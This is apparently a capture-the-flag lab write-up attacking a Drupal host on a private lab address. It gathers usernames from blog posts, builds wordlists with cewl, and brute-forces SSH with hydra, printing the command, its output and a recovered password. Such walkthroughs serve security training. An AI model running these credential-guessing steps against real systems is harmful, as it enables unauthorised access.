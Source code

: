 ![1](https://github.com/Kunull/Write-ups/assets/110326359/22e129c7-fc03-4cc8-b68a-2f8f8eb47843)

Upon visiting port 1898 on which Drupal is running, we find two posts from the two different users.

![2](https://github.com/Kunull/Write-ups/assets/110326359/ede697dd-d7e6-476e-8cb0-c2a723349068)

| Users |
| ----- |
| tiago |
| eder  |

We have to save these usernames in a `usres.txt` file.

### Generating passwords using cewl

Let's generate a password using `tiago`'s blog post first.

```
cewl http://192.168.167.48:1898/?q=node/1 -w passwords.txt
```

Next let's generate a password list using `eder`'s blog post.

```
cewl http://192.168.167.48:1898/?q=node/3 -w passwords.txt
```

&nbsp;

## Exploitation vector 1

### Brute forcing SSH credentials using Hydra

Let's brute force the SSH credentials using `hydra`.

```
$ hydra -L users.txt -P passwords.txt ssh://192.168.167.48
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-05-05 11:30:09
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 1688 login tries (l:2/p:844), ~106 tries per task
[DATA] attacking ssh://192.168.167.48:22/
[22][ssh] host: 192.168.167.48   login: tiago   password: Virgulino
```

| Username | Password  |
| -------- | --------- |
| tiago    | Virgulino |

